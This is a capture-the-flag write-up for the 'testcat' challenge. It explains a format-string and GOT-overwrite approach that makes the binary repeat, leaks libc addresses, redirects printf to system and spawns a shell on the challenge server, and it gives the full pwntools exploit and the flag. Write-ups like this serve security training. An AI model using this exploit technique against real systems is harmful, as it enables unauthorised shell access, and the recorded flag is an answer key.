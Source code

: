# testcat
- 992 points
- did not solve at the time

Description
---
While scanning one of APOCALYPSE's internal systems, we managed to find a pretty barebone service named "testcat". Based on our intel, they're using it on their systems to check if their netcat command works. Can you try to get a shell on their testcat server? If you do manage to compromise their service, submit the flag on their system as proof!

Interact with the service at:
chals.cyberthon22f.ctf.sg:10401

P.S. This may be of some use to you: https://libc.rip/

Note: once you get a shell, the flag.txt can be found in the user's home directory.

Files: [testcat](./testcat)

Solution
---
There are multiple approaches to this challenge, since it is vulnerable to both format string and buffer overflow.

First things first,
```
$ checksec testcat
[*] '/[redacted]/testcat'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
- canary means immediately overwriting the rip is impossible.
  - for format string, this would not be an issue and in fact we would be using this to overcome a seperate problem
  - for bof, this will have to be handled before a ret2libc rop chain
- NX (non-executable) means that the stack is not executable.
  - for fmtstr, the program needs to repeat at least once to leak the libc base before sending in the final got write (possible thanks to partial relro)
  - rop chain once canary is overcome

there is also partial RELRO which allows for the global offset table to be overwritten

STRATEGY:
1) first i need to make the program repeat. typically there would be an exit() func but here the program terminates with a return call, and the canary makes it so you can't immediately perform bof
2) there's the fmtstr approach and the bof approach
3) pick one
  - buffer overflow: (1)overwrite the fini_array, leak canary, leak libc, (2) send payload
  - format string: (1) overwrite checkstack got with main, repeat program indefinitely, (2) leak libc, (3) send payload

one thing to note is that `__stack_chk_fail` has 2 underscores and it might be difficult to tell if there are more than 2

not salty by my waste of time at all

```python
from pwn import *
context.log_level='debug'

### DECLARE ###
BINARY = "./testcat"
URL = "chals.cyberthon22f.ctf.sg"
PORT = 10401
PROMPT = "=> "
MARKER = "RECEIVED:\n"
WRITE_FMT_OFFSET = 6

### SETUP ###
elf = context.binary = ELF(BINARY)
rop = ROP(BINARY)
p = remote(URL, PORT)

### part 1, make it repeat ###

payload1 = flat(
	fmtstr_payload(WRITE_FMT_OFFSET, {elf.got.__stack_chk_fail:elf.symbols.main}),
	"A"*280
)

p.sendlineafter(PROMPT, payload1)

### part 2, leak libc addresses ###

payload2a = flat(
	f"%{WRITE_FMT_OFFSET+1}$sAAAA",
	elf.got['printf'],
	"A"*280 #trigger canary
)

p.sendlineafter(PROMPT, payload2a)

p.recvuntil(MARKER)
printf_libc = u64(p.recvuntil('AAAA', drop=True).strip().ljust(8, b"\x00")) # standard
log.success("libc printf is: " + hex(printf_libc))

payload2b = flat(
	f"%7$sAAAA",
	elf.got['puts'],
	"A"*280 #trigger canary
)

p.sendlineafter(PROMPT, payload2b)

p.recvuntil(MARKER)
puts_libc = u64(p.recvuntil('AAAA', drop=True).strip().ljust(8, b"\x00")) # standard
log.success("libc puts is: " + hex(puts_libc))

### part 3, declare libc and overwrite printf with system ###

libc = ELF("./libc6_2.33-0ubuntu5_amd64.so")

libc_base = puts_libc - libc.symbols['puts']
log.info("libc base is " + hex(libc_base))

libc_system = libc_base + libc.symbols['system']
log.info("libc_system is " + hex(libc_system))

payload3 = flat(
	fmtstr_payload(WRITE_FMT_OFFSET, {elf.got['printf']:libc_system}),
	"A"*280
)

p.sendlineafter(PROMPT, payload3)

payload4 = "/bin/sh\x00"
p.sendline(payload4)

p.interactive()
```

`Cyberthon{w3LL_1_gu355_y0u_c0uLd_54y_t35tc4t_w45_4_C4T45tr0ph3}`


